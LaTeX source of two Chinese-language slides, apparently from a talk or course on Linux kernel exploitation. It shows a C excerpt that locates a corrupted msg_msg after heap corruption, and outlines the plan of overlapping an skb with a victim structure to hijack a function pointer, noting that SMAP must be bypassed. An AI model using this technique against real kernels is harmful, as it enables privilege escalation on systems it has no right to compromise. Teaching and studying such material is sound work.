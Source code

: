 \documentclass[xcolor=table]{beamer}
\begin{document}
\begin{frame}[fragile]
\frametitle{定位发生错误的消息队列索引}


\tiny\begin{lstlisting}[language=c]
    printf("[*] Searching for corrupted primary message...\n");
    for (int i = 0; i < NUM_MSQIDS; i++) {
        if (i != 0 && (i % HOLE_STEP) == 0)
            continue;
        if (peek_msg(msqid[i], &msg_secondary, sizeof(msg_secondary), 1) < 0)
            goto err_no_rmid;
        if (*(int *) &msg_secondary.mtext[0] != MSG_TAG) {
            printf("[-] Error could not corrupt any primary message.\n");
            goto err_no_rmid;
        }
        if (*(int *) &msg_secondary.mtext[4] != i) {
            fake_idx = i;
            real_idx = *(int *) &msg_secondary.mtext[4];
            break;
        }
    }
    if (fake_idx == -1 && real_idx == -1) {
        printf("[-] Error could not corrupt any primary message.\n");
        goto err_no_rmid;
    }
    // fake_idx's primary message has a corrupted next pointer; wrongly
    // pointing to real_idx's secondary message.
    printf("[+] fake_idx: %x\n", fake_idx);
    printf("[+] real_idx: %x\n", real_idx);
\end{lstlisting}


\end{frame}

\begin{frame}
\frametitle{使用可控范围更广的结构体占据msg\_msg}

\small{正常来说，下一步应该是使用可控范围更广的结构体(skb)与带有函数指针的结构体同时占据msg\_msg，然后劫持函数指针。所以利用流程应该如下:}

\footnotesize\begin{enumerate}
	\item 主消息1放弃辅助消息msg\_msg, skb占据msg\_msg
	\item 主消息2放弃辅助消息msg\_msg, victim\_struct占据msg\_msg
	\item 此时skb与victim\_struct占据同一内存空间
	\item 修改skb劫持victim\_struct内函数指针
	\item 触发victim\_struct函数指针，完成流程控制
\end{enumerate}

\small{但是注意到当实现步骤2时，msg\_msg已经被破坏，且skb无法伪造msg\_msg->list\_head->next成员，如果此时主消息2释放msg\_msg，辅助消息会被从循环链表msg\_msg->list\_head中去除，也就是说此阶段会涉及到对于msg\_msg->list\_head->next的读写，因为存在smap在用户态伪造该字段无意义，内核在此处会检查到smap错误，利用失败，所以接下来需要绕过SMAP}

\end{frame}
\end{document}
